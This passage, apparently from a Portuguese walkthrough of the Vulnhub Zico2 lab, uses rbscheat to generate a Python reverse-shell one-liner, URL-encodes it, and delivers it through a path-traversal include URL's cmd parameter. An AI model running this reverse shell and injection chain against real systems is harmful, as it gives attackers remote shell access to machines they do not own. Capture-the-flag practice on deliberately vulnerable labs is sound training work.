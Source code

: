 
Depois de testado procuramos por um comando para nos retornar o shell reverso. Utilizamos o **rbscheat** que pode ser encontrado no GitHub

```bash
rbscheat -i 192.168.110.3:443 -l python
```

![](/assets/img/Vulnhub/zico2/shellReverso-rbscheat.png)

> - **python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.110.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**


Vamos codificar para URL o comando acima para enviar pelo browser

![](/assets/img/Vulnhub/zico2/shellReverso-comandoCodificado.png)

> - **%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%31%31%30%2e%33%22%2c%34%34%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27**


Agora enviamos o payload para shell reverso via URL.

```
192.168.110.11/view.php?page=../../../../../usr/databases/charlie.php&cmd=%70%79%74%68%6f%6e%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%39%32%2e%31%36%38%2e%31%31%30%2e%33%22%2c%34%34%33%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27
```
